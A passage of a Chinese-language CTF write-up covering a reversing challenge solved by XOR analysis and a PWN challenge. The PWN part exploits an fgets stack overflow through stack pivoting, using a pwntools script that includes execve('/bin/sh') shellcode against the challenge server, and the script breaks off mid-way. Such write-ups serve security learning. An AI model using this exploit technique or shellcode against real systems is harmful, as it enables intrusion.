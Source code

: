 ### What's Virtialization | Author：shallow

~~我怀疑这题有点小问题~~

首先是0x4010e0位置的函数，实现了一个~a2 & ~a1。

我们可以通过这个函数分析出，401090处的函数是非，401180处的函数是异或，401030处的函数是与

可以看到，三个for循环中，都是将输入与一个数组进行异或，然后进行相同的一个判断，如果判断通过了，则v14为0,在main函数的最后将通不过那个if，不是正确flag。因此必须让for循环里的判断不通过：即flag[i] & x == flag[i]

这并不能说明flag[i] = x，至少全为0肯定是能通过的。。但最方便的就是这个结果，于是将x与前面数组异或，恰好就得到了flag。

脚本如下:

```python
XOR = lambda s1 , s2:bytes([x1 ^x2 for x1 ,x2 in zip(s1 , s2)])
array1 = [1,1,2,3,5,8,13,21,34]
s1 = b'\x7d[^]|{'
s2 = b'\x64tKcXxDmYgoNY'
s3 = b'\x40D]pTYHp@Yw^O'
x = [0x30,0x32,0x30,0x34,0x30,0x38]
print(XOR(6 *x,s1+ s2 + s3))
```

很大蒙的成分。。。但出题人是不是就是这个意思啊（逃

## PWN

### hello | Author：Lunatic, shallow 

程序从 main 函数进入 vul 函数

![image-20200518114423513](https://i.loli.net/2020/05/18/KWCebnm61udYF9z.png)

显然在 fgets 函数处存在栈溢出，但可溢出的长度非常短，于是考虑到进行栈迁移

#### 利用脚本如下：

```python
# pwn.challenge.mini.lctf.online 10091

from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'

if args.G:
    io = remote('pwn.challenge.mini.lctf.online', 10091)
else:
    io = process('./hello')

offset = 0x30
bss = 0x601060

payload  = '\x90' * offset + p64(bss + 500) + p64(0x4006FA)

# gdb.attach(io)

io.recvuntil('What\'s your name?')
io.sendline(payload)

payload  = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload += '\x90' * 21 + p64(bss + 500) + p64(bss + 500 - offset)

sleep(0.5)
```
